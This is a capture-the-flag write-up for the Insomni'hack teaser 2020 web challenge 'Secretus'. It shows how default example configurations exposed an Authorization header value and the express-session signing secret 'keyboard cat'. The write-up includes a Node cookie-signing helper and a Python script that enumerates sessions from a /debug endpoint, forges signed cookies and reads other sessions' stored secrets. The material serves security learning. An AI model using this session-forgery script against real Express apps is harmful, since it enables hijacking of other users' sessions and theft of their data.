 ```yaml
---
title: "Insomni'hack teaser 2020 - Secretus (Web)"
date: 2020-01-20T13:37:00+01:00
author: "evilet"
description: "Writeup of the challenge 'secretus'@Insomnia'hack teaser 2020"
---
```

***TL;DR***
Reusing example configurations is bad.

Secretus was a pure Web challenge which presented us with a minimal form.

![Secretus Index Page](/img/ins20_secretus1.png)

The form did actually have no purpose as there were no handlers executed upon clicking the button or
doing anything else, such as making a handstand while looking at the form. So after searching for
a quite embarassing time for the secret feature of the button or how to fix the broken form, we figured out that there were to
more endpoints from interest: **/secret** and **/debug**.

Visiting **/secret** presents us with the following error message: `{"error":"INVALID_API_KEY"}`.
First, we only googled for the error message itself or parts of it 
and did therefore not find the correct example page with the used code.
So some time went by with the first page, again... before looking for the complete json message 
with the exposed framkework (`X-Powered-By: Express` header) in google, to find the
following page: [express-authentication](https://www.npmjs.com/package/express-authentication).

The example code on this page returns the same value as our page, and the following part is from interest
for authentication:

```javascript
req.challenge = req.get('Authorization');
req.authenticated = req.authentication === 'secret';
```

So, if we set the header `Authorization: secret` we should be able to visit the **/secret** endpoint:

![Secretus Valid Auth Header](/img/ins20_secretus2.png)

Voila, we found the needed header to visit the page. The **/secret** endpoint presents us with kinda the same
form as the index page, but now we are able to insert at least 3 secrets which will be shown on the page.
Interesting in this step to notice is the cookie, which is set to map the secrets to a session: **connect.sid**.
This means, that there could be a session which has a secret we need to steal.

![Secretus Secrets Page](/img/ins20_secretus3.png)

But how do we find other valid sessions? There was another endpoint: **/debug** which we kinda ignored until now, because
it only redirected us to the home page. But if we use the _Authorization_ header on this endpoint, we get the following:

![Secretus Debug Page](/img/ins20_secretus4.png)

If we compare the returned list values against our session `connect.sid=s:LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.CsRwKt7H4uL4nGe4fH/0ATRfclH9E5GhhZxVB1ufa5k;`, we can see that
the first part (after `s:` and before the first dot) is also present in the list from the **/debug** endpoint: `LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.json`.
So we got the first part of the cookie and the second part is probably some kind of signature to verify the validity of the cookie.
This time, we google for the cookie name (`connect.sid`) to find: [express-session](https://github.com/expressjs/session) which again
pretty much looks exactly like what we got as response from secretus. Looking through the code, searching with the github search
for the "sign" function reveals the following code to set the cookie:

```javascript
function setcookie(res, name, val, secret, options) {
  var signed = 's:' + signature.sign(val, secret);
  var data = cookie.serialize(name, signed, options);

  debug('set-cookie %s', data);

  var prev = res.getHeader('Set-Cookie') || []
  var header = Array.isArray(prev) ? prev.concat(data) : [prev, data];

  res.setHeader('Set-Cookie', header)
}
```

Interesting for us is the second part, in which the signature is created. This once again looks exactly like what we got (the "s:"
in front with the value and the signature). But where do we find the variable value **secret** for the signature? And here the "theme" of
the challenge came through, using default values. The README gile in the repository has the following example giving us the secret `keboard cat`:

```javascript
var app = express()
app.set('trust proxy', 1) // trust first proxy
app.use(session({
  secret: 'keyboard cat',
  resave: false,
  saveUninitialized: true,
  cookie: { secure: true }
}))
```

With the help of the original code, we build our own function reusing the frameworks for simplicity:

```javascript
var express = require('express');
var app = express();
var signature = require('cookie-signature')

app.get('/', function(req, res){
	console.log(req.query.yay);
	var x = 's:' + signature.sign(req.query.yay, "keyboard cat");
	res.send(x);
});

app.listen(3000);
```

This will start us an express service which expects the parameter _yay_ on a request and uses it as value for the signature.
Afterwards the complete cookie value is returned, signed and ready to use. We test it with our original session which should
return `s:LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.CsRwKt7H4uL4nGe4fH/0ATRfclH9E5GhhZxVB1ufa5k` if `LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te` is given:

```bash
~ curl "127.0.0.1:3000/?yay=LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te"
s:LRTM70yfO-cQ4ikmDBZoLa_WwSnX82te.CsRwKt7H4uL4nGe4fH/0ATRfclH9E5GhhZxVB1ufa5k
```

Now we can forge all existing sessions with the following steps:

1. Visit **/debug** and extract the list of all sessions.
2. Create valid session cookies for each extracted session.
3. Visit the **/secret** endpoint with each session cookie.
4. Look for interesting stored secrets, such as the flag.

We did these steps in Python as shown in the following:

```python
#!/usr/bin/env python3
import requests
from lxml import html

headers = {'Authorization': 'secret'}
url = "http://secretus.insomnihack.ch"

# Request the debug endpoint to retrieve all sessions
r = requests.get(f"{url}/debug", headers=headers)

# Parse sessions out of html and strip the .json in the end
# using list comprehension. List comprehension is awesome!
tree = html.fromstring(r.text)
all_sessions = [os.path.splitext(s)[0] for s in tree.xpath('//li/text()')]

# Iterate over each session value
for session in all_sessions:
		# Retrieve the full session cookie, querying our own express session service
		cookie_request = requests.get(f"http://127.0.0.1:3000/?yay={session}")

		# Set the retrieved cookie
		cookies = {"connect.sid": cookie_request.text}

		# Request the secret endpoint with our currently forges session
		get_secrets = requests.get(f"{url}/secret", headers=headers, cookies=cookies, proxies={"http": "http://127.0.0.1:8080"})

		# Extract and print all secrets from current session
		tree = html.fromstring(get_secrets.text)
		secrets = tree.xpath('//li/text()')
		if secrets:
			print(secrets)
```

The script in its full action:

![Secretus flag retrieval](/img/ins20_solution.gif)
